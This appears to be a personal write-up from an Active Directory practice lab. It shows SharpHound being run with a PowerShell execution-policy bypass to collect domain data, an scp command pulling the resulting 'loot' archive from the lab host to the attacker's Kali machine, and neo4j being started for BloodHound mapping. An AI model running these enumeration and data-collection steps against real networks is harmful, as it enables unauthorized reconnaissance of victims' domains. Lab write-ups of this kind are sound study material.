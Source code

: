 1. Ensure the ssh is using powershell with -ep bypass
1. Open Sharphound with '. .\Downloads\SharpHound.ps1'
1. Invoke-Bloodhound -CollectionMethod All -Domain CONTROLLER.local -ZipFileName loot.zip

``` ps1
PS C:\Users\Administrator> Invoke-Bloodhound -CollectionMethod All -Domain CONTROLLER.LOCAL -ZipFileName loot.zip        
----------------------------------------------- 
Initializing SharpHound at 4:19 AM on 8/15/2021 
-----------------------------------------------

Resolved Collection Methods: Group, Sessions, LoggedOn, Trusts, ACL, ObjectProps, LocalGroups, SPNTargets, Container     

[+] Creating Schema map for domain CONTROLLER.LOCAL using path CN=Schema,CN=Configuration,DC=CONTROLLER,DC=LOCAL
PS C:\Users\Administrator> [+] Cache File not Found: 0 Objects in cache 

[+] Pre-populating Domain Controller SIDS 
Status: 0 objects finished (+0) -- Using 97 MB RAM 
Status: 66 objects finished (+66 33)/s -- Using 102 MB RAM 
Enumeration finished in 00:00:02.2919351 
Compressing data to C:\Users\Administrator\20210815041921_loot.zip
You can upload this file directly to the UI 

SharpHound Enumeration Completed at 4:19 AM on 8/15/2021! Happy Graphing! 
```

>sudo scp Administrator@10.10.159.225:/C:/Users/Administrator/20210815041921_loot.zip /home

The command I run to download the loot file. Note to self, use scp on the attacker Linux machine next time.

### Mapping the Network with Bloodhound

Start neo4j first

>sudo neo4j console

Remember the sudo since Kali no longer has root user by default. Running Bloodhound will then be possible because there's the green check mark since neo4j is online.

![bloodhound](assets/img/bloodhound.png)
